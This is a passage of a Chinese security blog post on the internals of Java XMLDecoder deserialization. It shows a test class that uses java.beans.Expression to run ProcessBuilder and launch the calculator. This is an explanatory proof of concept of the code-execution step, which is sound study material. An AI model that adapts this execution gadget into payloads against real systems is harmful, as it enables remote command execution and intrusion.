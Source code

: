 > 原文链接: https://www.anquanke.com//post/id/248771 


# XMLDecoder反序列化漏洞底层扩展与WebShell


                                阅读量   
                                **25171**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t0184d83dd51729d59b.jpg)](https://p5.ssl.qhimg.com/t0184d83dd51729d59b.jpg)



## XMLDecoder反序列化漏洞底层

[参考](https://www.freebuf.com/articles/network/247331.html)的文章已经分析的非常详细了，这里我主要是就是一下最后的执行是怎么样的。也就是Expression类的使用

```
import java.beans.Expression;

public class test `{`
    public static void main(String[] args)throws Exception `{`
        Parameter();//有参数
        NoParameter();//无参数
    `}`
    public static void Parameter() throws Exception`{`
        Object var3 = new ProcessBuilder();
        String var4 = "command";
        String[] strings = new String[]`{`"calc"`}`;
        Object[] var2 = new Object[]`{`strings`}`;
        Expression var5 = new Expression(var3, var4, var2);
        Object value = var5.getValue();//获得参数的类

        String var1 = "start";
        Object[] var6 = new Object[]`{``}`;
        Expression expression = new Expression(value, var1, var6);//执行start方法
        expression.getValue();

//        为什么不能执行？因为class.newInstance只能调用无参构造函数而ProcessBuilder没有无参数构造函数。
//        Class&lt;?&gt; aClass = value.getClass();
//        Object o = aClass.newInstance();
//        Method start = aClass.getMethod("start");
//        start.invoke(o);
    `}`
    public static void NoParameter()`{`
        String[] strings = new String[]`{`"cmd.exe","/c","calc"`}`;
        Object var3 = new ProcessBuilder(strings);
        String var4 = "start";
        Object[] var2 = new Object[]`{``}`;
        Expression var5 = new Expression(var3, var4, var2);
        try `{`
            var5.getValue();
        `}` catch (Exception e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```
